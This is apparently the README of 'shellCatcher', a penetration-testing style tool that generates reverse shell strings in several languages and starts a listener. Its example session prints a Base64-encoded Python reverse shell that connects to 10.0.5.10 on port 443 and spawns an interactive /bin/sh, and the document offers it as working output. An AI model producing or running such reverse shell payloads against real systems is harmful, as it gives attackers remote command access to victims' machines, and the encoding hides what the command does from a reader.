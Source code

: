 shellCatcher
============

Small tool that spits out a reverse shell string in different languages, and spins up a listener that waits for its connection


example usage
============

Welcome to shellCatcher!
Please select a language to use from the list below:

[0] Bash
[1] PERL
[2] Python
[3] Netcat
[4] PHP
[5] Ruby
[6] Java
[7] xterm

> 2

Please insert your IP address and port number
ex: 192.168.0.10:443

> 10.0.5.10:443

Select an encoding. If you don't want one, select 0:
[0] None
[1] URL
[2] Base64

> 2

Reverse Shell String
========================================
cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMC41LjEwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=
========================================

Spawning the listener on port 443
Waiting for connection...
